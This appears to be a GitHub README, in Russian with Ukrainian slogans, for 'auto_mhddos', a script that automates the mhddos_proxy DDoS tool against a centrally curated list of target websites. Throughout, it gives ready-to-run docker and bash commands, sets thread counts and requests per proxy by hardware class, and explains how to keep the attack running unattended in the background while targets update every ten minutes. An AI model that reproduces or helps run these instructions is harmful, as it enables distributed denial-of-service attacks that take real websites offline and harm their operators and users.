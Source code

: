 ### ⭕️ Оперативный штаб Жнецов
![photo_2022-03-17_23-39-03](https://user-images.githubusercontent.com/41838573/158963538-944690c4-83ea-4934-9a29-6eb8f1e61f3a.jpg)

### Представляем auto_mhddos - автоматизирующий скрипт [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

1. [Docker](https://github.com/Aruiem234/auto_mhddos#-docker)
2. [Bash(Linux-терминал)](https://github.com/Aruiem234/auto_mhddos#-bash)
3. [Kubernetes](https://github.com/Aruiem234/auto_mhddos/tree/main/helm-charts#mhddos-auto-helm-charts)

## 🪖 Docker

Установить [Docker](https://docs.docker.com/get-docker/) и запустить команду:  
  
* для ленивих(кол-во потоков будет 1000, запросов на прокси-сервер перед отправкой на цель: 200):
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest
```



### Команды docker для разного железа: 

-- Слабое (2 ядра + 2-4 ГБ Озу).


```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100  
```
  
-- Среднее (4 ядра + 4-8 Гб Озу) .Эти же параметры использутся по умолчанию, если запускать команду без аргументов.:   
  

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 1000 200  
```
  
-- Быстрое(4+ ядер + 8+ Гб Озу):  

  
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 2500 400  
```
  
Значение параметров на примере "500 100":  
  
500 - количество потоков (threads). Параметр -t в mhddos_proxy.  
  
100 - параметр --rpc в mhddos_proxy. (количество пакетов отправляемых на прокси-сервер, перед тем как он передаст их на сайт-цель)  

## 🪖 Bash(Linux-терминал)  


### 1. Установка.  
  
Выполняется для начальной установки ПО, и периодического обновления. Не обязательно использовать каждый раз.  


```shell  
cd ~  
git clone https://github.com/Aruiem234/auto_mhddos.git  
cd ~/auto_mhddos  
bash setup.sh  

```
!!!Ждем пока выполнится!!!  


Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### 2. Запуск.

Bash скрипт работает в Linux и WSL (Windows Subsystem for Linux). Работает автоматически, даже при закрытии терминала (если вы четко придерживаетесь инструкций)  

Не забудьте сначала выполнить пункт №1 (Установка).  


```shell
cd ~/auto_mhddos
screen -S "runner" bash runner.sh 1000 200
```
Для разных машин вместо параметров "1000 200" выбирайте следующее:  
-- Слабое (2 ядра + 2-4 ГБ Озу) - 500 100  
-- Среднее (4 ядра + 4-8 Гб Озу) - 1000 200  
-- Быстрое(4+ ядер + 8+ Гб Озу) - 2500 400  

Нажимаем Ctrl+A , затем Ctrl+D - И ВСЕ ГОТОВО - РАБОТАЕТ В ФОНЕ  
Если все успешно, то будет сообщение [detached from runner]  
  
Чтоб посмотреть, что там работает в фоне:  
```shell
sudo screen -ls
```
  
Чтоб перейти к процессу и узнать как у него дела (что он выводит)
щоб перейти до процесу та дізнатися як у нього справи (що він виводить), пишите:
```shell
screen -r runner
```
После этого, если захотите убить процес - нажимайте Ctrl+C  
Чтоб убить все его подпроцесы:  
```shell
sudo pkill -f runner.py
sudo pkill -f ./start.py
```
  
чтоб опять отключиться, и оставить его работать в фоне:  
Нажимаем Ctrl+A , затем Ctrl+D - И ВСЕ ГОТОВО - РАБОТАЕТ В ФОНЕ  


# ❕Описание

* Скрипт работает полностью автоматически - ВЫ МОЖЕТЕ ЗАКРЫВАТЬ ОКНО ТЕРМИНАЛА(кроме докера на Windows), но не выключать саму машину (а сервер и так работает 24/7)

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 10 мин.




Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.



### 🇺🇦🇺🇦🇺🇦 СЛАВА УКРАЇНІ 🇺🇦🇺🇦🇺🇦
### ПТН ХЛО 🤡
